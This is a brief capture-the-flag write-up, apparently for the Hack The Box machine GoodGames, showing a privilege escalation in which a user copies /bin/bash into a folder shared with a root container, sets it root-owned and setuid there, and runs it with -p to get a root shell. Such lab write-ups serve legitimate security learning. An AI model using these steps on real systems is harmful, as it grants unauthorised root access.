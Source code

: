 ```
-rw-r--r-- 1 augustus augustus 3526 Oct 19  2021 .bashrc                                             
-rw-r--r-- 1 augustus augustus  807 Oct 19  2021 .profile                                            
-rw-r--r-- 1 augustus augustus    5 Feb 22 11:30 tofu1.txt                                           
-rw-r--r-- 1 root     root        6 Feb 22 11:31 tofu2.txt                                           
-rw-r----- 1 augustus augustus   33 Feb 22 10:16 user.txt
```

It seems like we can create a file owned by root in the container and we can see all the files between the two.

## Run bash as root

Since they share the same folder and one has a root permission, we can copy binbash in augustus then change owner of binbash from augustus to root, then change permission.
now augustus can run the bash and it will be run as root, so we can perform privilege escalation

On augustus
```
cp /bin/bash .
```
to get bash in the shared folder

On container
```
chown root:root bash
chmod 4777 bash
```
Setuid helps us to run the program as a root.

On augustus
```
./bash -p
```
with -p option, bash keeps the effective user id.


# Reference

https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html
